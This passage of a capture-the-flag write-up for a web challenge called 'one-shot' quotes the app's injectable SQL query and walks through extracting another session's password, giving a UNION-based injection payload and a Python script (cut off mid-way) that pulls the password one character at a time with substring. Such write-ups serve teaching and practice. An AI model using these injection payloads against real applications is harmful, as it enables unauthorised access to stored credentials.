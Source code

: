   - If not, update to 1: `UPDATE table_{id} SET searched = 1` and makes the following query `query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")`. The query is vulnerable to sql injection by using the query parameter. After that, it will show only the first character of the query and the rest it will replace with `*`.
- POST `/guess`:
  - Guess endpoint receives an id and password as parameters. If we guess the password correctly for that id we get the flag. Otherwise, it will delete the table for that id. We can't do nothing here.
  
Basically what we need to do is create a fix id that we need to discover the password and use the vulnerable sql injection and other ids to grab each piece of the password of that id.

First, lets create two ids and try to grab the first character of the password from the other id.
The web app helps us here because it will fetch each entry we grab from the query: `{"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}`

We created a fix id: `83eaa51857ba1b84`

After some testing we get the password from the fix id and the temp id we created using the sqli: `id=6c9490beb6f85fed&query=%' UNION select password from table_83eaa51857ba1b84 --`, the next step is trying to get the second character.

To extract the second character we use a function called substring: `select substring(password, 2, 1) from table_83eaa51857ba1b84` gets the second character.
So we build the final python script:

```python
import requests
from bs4 import BeautifulSoup
from urllib.parse import quote

url = "http://one-shot.amt.rs"

endpoint_new_session = "/new_session"
endpoint_search = "/search"
endpoint_guess = "/guess"

# Get an id
def get_temp_id():
    # Parse the HTML content
    res = requests.post(url+endpoint_new_session)
    soup = BeautifulSoup(res.text, 'html.parser')
    id = soup.find('input', {'name': 'id'})
    return id['value']

fix_id = get_temp_id()
fix_id_password = ""

# Get each character of the password
def get_password_character(temp_id, char_pos):
    payload = f"%' UNION select substring(password,{char_pos+1},1) from table_{fix_id} -- "

    data = {
    'id': temp_id,
    'query': payload
    }

    res = requests.post(url+endpoint_search, data=data)

    # Parse the HTML content
    soup = BeautifulSoup(res.text, 'html.parser')

    # Find all li elements
    li_elements = soup.find_all('li')

    if len(li_elements[0].text.strip()) == 1:
        return li_elements[0].text.strip()
```